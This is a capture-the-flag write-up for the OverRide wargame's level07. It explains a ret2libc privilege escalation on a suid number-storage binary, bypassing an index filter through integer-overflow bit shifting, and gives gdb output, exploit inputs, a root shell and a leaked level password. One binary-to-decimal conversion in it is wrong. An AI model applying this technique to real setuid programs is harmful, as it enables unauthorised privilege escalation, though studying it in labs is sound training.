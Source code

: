 # Level07

## Solution

* There is one file in our home, ```level07```, belonging to ```level08``` user, with suid.
* Here's the hand-decompiled source code we propose for this binary: [source.c](source.c)

* For the sake of clarity, we won't display the disassembled code, but we will describe its behaviour:

	* ```main()``` first deletes all the arguments passed to the program and also the environment
	* it then allocates a on-stack ```0x64 int``` buffer
	* it asks the user to input a command :
		* ```store``` to call ```store_number()```
		* ```read``` to call ```read_number()```
		* ```quit``` to leave the program
	* ```store_number``` asks the user for a number and an index where to store this number in the ```main()``` buffer
	* if the index is a multiple of ```0x3``` or if ```(nb >> 0x18) == 0xb7```, ```store_number()``` refuses to store the number and returns ```1```
	* else it will store the number at the right index. As the buffer is filled with ```int```s, ```store_number()``` has actually to multiply the index by ```4``` and add it to the address of the buffer. For that, the assembly code uses a left bit shift of ```2```

* What we did with all of that:

	* our goal was to perform a ret2libc attack, using ```store_number``` to change values of former ```eip``` to ```system()``` address, and the content located ```4``` bytes after to a pointer to ```/bin/sh``` string
	* for that we needed several information:
		* offset between the buffer and the former ```eip``` location: ```0xffffd6cc - 0xffffd504 = 456``` bytes, that is to say ```456 / 4 = 114``` ints
		* ```system()``` address:
		```
		(gdb) p system
		$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
		```
		* as we could not store ```/bin/sh``` in a an env variable, we have to found an occurence in the program itself:
		```
		(gdb) find __libc_start_main,+99999999,"/bin/sh"
		0xf7f897ec
		warning: Unable to access target memory at 0xf7fd3b74, halting search.
		1 pattern found.
		```
		* in decimel, ```system()``` address is ```4159090384```; ```bin/sh``` address is ```4160264172```
	* one last problem: ```114``` is a multiple of ```3```, meaning that we could not access offset ```114 * 4 = 456``` by inputing ```114```.
	* then we had to find a number that would leads to the same result as ```114``` after a left bitshift of 2, without being a multiple of ```3```
	* as ```(int)114``` is ```0b00000000000000000000000001110010```, we had three candidates:
		* ```0b10000000000000000000000001110010 = 2147483762``` => not multiple of ```3```
		* ```0b01000000000000000000000001110010 = 1073741938``` => not multiple of ```3```
		* ```0b11000000000000000000000001110010 = 1610612850``` => multiple of ```3```
	* we could finally solve the level:
	```
	level07@OverRide:~$ ./level07
	----------------------------------------------------
	Welcome to wil's crappy number storage service!
	----------------------------------------------------
	Commands:
		store - store a number into the data storage
		read  - read a number from the data storage
		quit  - exit the program
	----------------------------------------------------
	wil has reserved some storage :>
	----------------------------------------------------

	Input command: store
	Number: 4159090384
	Index: 2147483762
	Completed store command successfully
	Input command: store
	Number: 4160264172
	Index: 116
	Completed store command successfully
	Input command: quit
	$ cd ../level08
	$ cat .pass
	7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
	```